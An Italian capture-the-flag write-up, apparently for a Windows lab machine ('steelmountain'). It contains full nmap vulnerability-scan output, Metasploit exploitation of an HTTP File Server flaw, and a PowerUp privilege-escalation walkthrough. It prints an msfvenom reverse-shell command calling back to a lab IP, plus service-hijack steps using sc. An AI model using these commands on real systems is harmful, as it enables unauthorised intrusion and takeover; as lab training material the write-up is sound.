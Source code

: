 
![](images/image2.png)

# Introduzione

## Sistema operativo

Windows


## Prerequisiti / tools

Metasploit

# Enumeration

```bash
root@ip-10-10-211-230:~\# nmap -sC -sV --script vuln 10.10.166.50Starting Nmap 7.60 ( https://nmap.org ) at 2022-01-18 20:34 GMT  
Nmap scan report for ip-10-10-166-50.eu-west-1.compute.internal (10.10.166.50)  
Host is up (0.00062s latency).  
Not shown: 988 closed ports  
PORT      STATE SERVICE      VERSION  
80/tcp    open  http         Microsoft IIS httpd 8.5  
|\_http-csrf: Couldn't find any CSRF vulnerabilities.  
|\_http-dombased-xss: Couldn't find any DOM based XSS.  
|\_http-server-header: Microsoft-IIS/8.5  
|\_http-stored-xss: Couldn't find any stored XSS vulnerabilities.  
135/tcp   open  msrpc        Microsoft Windows RPC  
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn  
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds  
3389/tcp  open  ssl          Microsoft SChannel TLS  
| fingerprint-strings:  
|   TLSSessionReq:  
|     }vxr4O  
|     FJ,9  
|     steelmountain0  
|     220117202844Z  
|     220719202844Z0  
|     steelmountain0  
|     !{fb;Fy  
|     R=pd,  
|     d=?2fZ  
|     5>Hh  
|     $0"0  
|     sQEEK  
|     p27t  
|     7Wvb  
|     O\*$P.3\*  
|     9}."  
|\_    X|G#g  
| ssl-dh-params:  
|   VULNERABLE:  
|   Diffie-Hellman Key Exchange Insufficient Group Strength  
|     State: VULNERABLE  
|       Transport Layer Security (TLS) services that use Diffie-Hellman groups  
|       of insufficient strength, especially those using one of a few commonly  
|       shared groups, may be susceptible to passive eavesdropping attacks.  
|     Check results:  
|       WEAK DH GROUP 1  
|             Cipher Suite: TLS\_DHE\_RSA\_WITH\_AES\_256\_GCM\_SHA384  
|             Modulus Type: Safe prime  
|             Modulus Source: RFC2409/Oakley Group 2  
|             Modulus Length: 1024  
|             Generator Length: 1024  
|             Public Key Length: 1024  
|     References:  
|\_      https://weakdh.org  
|\_sslv2-drown:  
8080/tcp  open  http         HttpFileServer httpd 2.3  
|\_http-csrf: Couldn't find any CSRF vulnerabilities.  
|\_http-dombased-xss: Couldn't find any DOM based XSS.  
| http-fileupload-exploiter:  
|    
|     Couldn't find a file-type field.  
|    
|\_    Couldn't find a file-type field.  
| http-method-tamper:  
|   VULNERABLE:  
|   Authentication bypass by HTTP verb tampering  
|     State: VULNERABLE (Exploitable)  
|       This web server contains password protected resources vulnerable to authentication bypass  
|       vulnerabilities via HTTP verb tampering. This is often found in web servers that only limit access to the  
|        common HTTP methods and in misconfigured .htaccess files.  
|                
|     Extra information:  
|        
|   URIs suspected to be vulnerable to HTTP verb tampering:  
|     /~login \[GENERIC\]  
|    
|     References:  
|       http://capec.mitre.org/data/definitions/274.html  
|       https://www.owasp.org/index.php/Testing\_for\_HTTP\_Methods\_and\_XST\_%28OWASP-CM-008%29  
|       http://www.imperva.com/resources/glossary/http\_verb\_tampering.html  
|\_      http://www.mkit.com.ar/labs/htexploit/  
|\_http-server-header: HFS 2.3  
|\_http-stored-xss: Couldn't find any stored XSS vulnerabilities.  
| http-vuln-cve2011-3192:  
|   VULNERABLE:  
|   Apache byterange filter DoS  
|     State: VULNERABLE  
|     IDs:  CVE:CVE-2011-3192  OSVDB:74721  
|       The Apache web server is vulnerable to a denial of service attack when numerous  
|       overlapping byte ranges are requested.  
|     Disclosure date: 2011-08-19  
|     References:  
|       http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192  
|       http://seclists.org/fulldisclosure/2011/Aug/175  
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3192  
|       http://nessus.org/plugins/index.php?view=single&id=55976  
|\_      http://osvdb.org/74721  
49152/tcp open  msrpc        Microsoft Windows RPC  
49153/tcp open  msrpc        Microsoft Windows RPC  
49154/tcp open  msrpc        Microsoft Windows RPC  
49155/tcp open  msrpc        Microsoft Windows RPC  
49156/tcp open  msrpc        Microsoft Windows RPC  
49163/tcp open  msrpc        Microsoft Windows RPC  
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :  
SF-Port3389-TCP:V=7.60%I=7%D=1/18%Time=61E72491%P=x86\_64-pc-linux-gnu%r(TL  
SF:SSessionReq,346,"\\x16\\x03\\x03\\x03A\\x02\\0\\0M\\x03\\x03a\\xe7\\$\\x8c\\x18\\x0c\\  
SF:xe6\\x0e\\x06\\x9d\\xff\\x84\\xe8\\xf9My~\\x1b\\x06J\\x0c}vxr4O\\xe9V\\x8e\\xfe\\xe2\\  
SF:x20\\x07\\x10\\0\\0\\xda\\xc7\\x0f\\xc4\\xc36\\xeb#\\xf5,h\\xa3\\xa9\\x13\\xc47\\xfc\\x1  
SF:dR\\n\\xbd\\xebe\\x1a2\\x1d\\x81#\\0/\\0\\0\\x05\\xff\\x01\\0\\x01\\0\\x0b\\0\\x02\\xe8\\0\\  
SF:x02\\xe5\\0\\x02\\xe20\\x82\\x02\\xde0\\x82\\x01\\xc6\\xa0\\x03\\x02\\x01\\x02\\x02\\x10  
SF:\\x12\\xe2FJ,9\\xf4\\xbaFZ\\xbf\\x94\\x95\\"\\xd4\\xe70\\r\\x06\\t\\\*\\x86H\\x86\\xf7\\r\\  
SF:x01\\x01\\x05\\x05\\x000\\x181\\x160\\x14\\x06\\x03U\\x04\\x03\\x13\\rsteelmountain0  
SF:\\x1e\\x17\\r220117202844Z\\x17\\r220719202844Z0\\x181\\x160\\x14\\x06\\x03U\\x04\\  
SF:x03\\x13\\rsteelmountain0\\x82\\x01\\"0\\r\\x06\\t\\\*\\x86H\\x86\\xf7\\r\\x01\\x01\\x01  
SF:\\x05\\0\\x03\\x82\\x01\\x0f\\x000\\x82\\x01\\n\\x02\\x82\\x01\\x01\\0\\xb3!{fb;Fy\\xca{  
SF:u\\xb6\\xa7\\xc2\\(\\xbcq\\xde\\xe0\\x15\\xd3\\xd4#\\x8e24\\xddR=pd,\\x8d\\xb6z\\x0b\\x  
SF:c6\\xea\\xea\\xe9\\\[\\xef\\x8f{\\x97\\x91\\xf4\\xbd\\xa4x\\xe8\\x1e\\"P\\x93\\\[\\xc5\\x1d  
SF:c\\xb4,\\xa9\\x96\\x93s\\xbf\\xd8\\x82G@\\x7fg\\xde\\x9b\\xb4\\^\\xc2\\x20\\xc2\\xba\\xd  
SF:b\\.b\\x92\\xf3;\\x924\\x943\\x06\\xc8g\\xc2\\\*\\x0b\\x9b\\xec\\\]\\x7f\\xd4{\\x8a\\xcb\\x  
SF:20\\xbe'6\\x9f\\x20<m\\xf5\\x9e\\x85\\x0c\\xe6\\xe5\\xad4\\)\\xf3k0\\r\`\\"\\xae\\xb9-\\x  
SF:82\\x8e\\xa2\\xa6\\xf2\\x02mW\\xc6t\\xbb\\xe2\\xa7\\xd9~ti\\xfe\\x8c0\\xbaB\\x90\\xcb4  
SF:%\\x17\\xa0M\\xba\\xa7e\\xa5\\x90\\x030\\xfa\\xfe\\x03\\0\\xd5\\xd41C\\.\\xa5\\tL\\xd1\\x  
SF:eb\\x03d=\\?2fZ\\xd9\\xf9\\n\\x81\\x7f\\x91\\x9d\\xe9\\xb2e!\\x82\\xdb/\\xd5\\xd4\\x11Z  
SF:\\xb8&z\\xfc5>Hh\\x8f\\xb1\\xb7\\xe2\\xac\\x7fd\\xfc\\xb5b2\\x97}\\xd1D&\\0\\x20\\x89\\  
SF:x9b\\x13=#\\xf7\\0\\xa9\\x8d\\x04iHW\\xa4m\\x8a\\x01\\x83m\\xb7T\\xc0};I\\x02\\x03\\x0  
SF:1\\0\\x01\\xa3\\$0\\"0\\x13\\x06\\x03U\\x1d%\\x04\\x0c0\\n\\x06\\x08\\+\\x06\\x01\\x05\\x0  
SF:5\\x07\\x03\\x010\\x0b\\x06\\x03U\\x1d\\x0f\\x04\\x04\\x03\\x02\\x0400\\r\\x06\\t\\\*\\x86  
SF:H\\x86\\xf7\\r\\x01\\x01\\x05\\x05\\0\\x03\\x82\\x01\\x01\\0sQEEK\\x8dL\\xfdNUD\\xca\\\[\\  
SF:xd45\\xfb\\x82\\xb8\\xdc\\xa9\\xdb\\xaa\\xde\\xca\\xb4\\x85\\x8cS\\x96\\x1a~\\x9f\\xae\\  
SF:x18\\x8a%\\xe4\\x85\\xe9\\xa5\\xa5\\xa9\\xa9\\x92\\x13Cm\\xdf\\$ZP\\x04\\xf1\\r\\x83\\xb  
SF:bo\\xe3\\xb9\\xc9=\\xd87W\\xef\\x02\\x9f\\xaf\\x1c\\xe8j\\xee%!f\\xee:\\xf8\\xea\\x0b\\  
SF:xd3\\xb6\\x0e\\xb6\\xd5\\xf0l\\xa9V\\x19\\xc9\\xb2\\x9d\\xbdp27t\\xf6\\xf2\\xa1\\x81x\\  
SF:x83\\x11\\x0e\\xed\\xa1\\x92\\xc57Wvb\\x93\\xe7\\x0b\\x91O\\\*\\$P\\.3\\\*\\x14\\r\\x1a\\x1  
SF:3\\xa6l\\xb5\\x86\\x07\\xc0\\xbf\\xe1\`\\\[f\\xe9\\xb0\\x97'i\\xb3t\\t\\x1e=/\\x89\\x81\\x  
SF:d2\\x99~r\\x1a\\"\\xb7q\\xf5\\xe2\\^\\x07AaI\\xabI\\x84\\x1d\\x06\\xffY~\\x1e\\x07\\x87  
SF:\\x06S\\r\\xc3\\x05\\xfe\\xbc9}\\.\\"\\r\\xa5\\x07D\\xbf-@\\xf1X\\|G#g\\xdf\\xbf-R\\xcb\\  
SF:x9fY\\xd98\\xe3,\\xb3C\\xd2W\\x89\\xeb\\x14h\\x9a\\xc0\\xfb;\\x1cs\\xa4i\\xef\\xfe{W\\  
SF:x94\\xfa\\x89\\xa3\\x98\\x88<\\xb8\\xd24\\xe5v\\t\\\]\\.\\x7fS\\xf2\\xe3\\xc4\\x0e\\xeb\\x  
SF:0e\\0\\0\\0");  
MAC Address: 02:3C:85:AB:9E:B5 (Unknown)  
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows  
  
Host script results:  
|\_samba-vuln-cve-2012-1182: No accounts left to try  
|\_smb-vuln-ms10-054: false|\_smb-vuln-ms10-061: No accounts left to try  
  
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 262.08 seconds
```

# Exploitation

1.  Con metasploit sfruttiamo la vulnerabilità 2014-6287 del server rejetto http file server

Privilege escalation

1.  Scaricare PowerUp.ps1 con:  
    `wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`
2.  Caricarlo nella macchina tramite metasploit con:  
    `upload /root/PowerUp.ps1`
3.  Caricare il modulo powershell e avviare la shell:  
    `load powershell`

`powershell\_shell`

4.  Eseguire PowerUp  
    . `.\\PowerUp.ps1`

Invoke-AllChecks

5.  Dai risultati emerge che c’è una vulnerabilità di tipo unquoted service path  
    ![](images/image3.png)
6.  Spiegazione:  
    The CanRestart option being true, allows us to restart a service on the system, the directory to the application is also write-able. This means we can replace the legitimate application with our malicious one, restart the service, which will run our infected program!
7.  Con msfvenom generiamo una reverse shell da caricare  
    `msfvenom -p windows/x64/shell\_reverse\_tcp LHOST=10.10.113.132 LPORT=5555 -f exe -o Advanced.exe`
8.  Caricare l’eseguibile nella cartella del programma ad un livello superiore:![](images/image1.png)
9.  Mettersi in ascolto con netcat
10.  Riavviare il servizio  
    `sc stop AdvancedSystemCareService9  `
    `sc start AdvancedSystemCareService9`
11.  su windows l’equivalente di cat è `type root.txt && type CON`
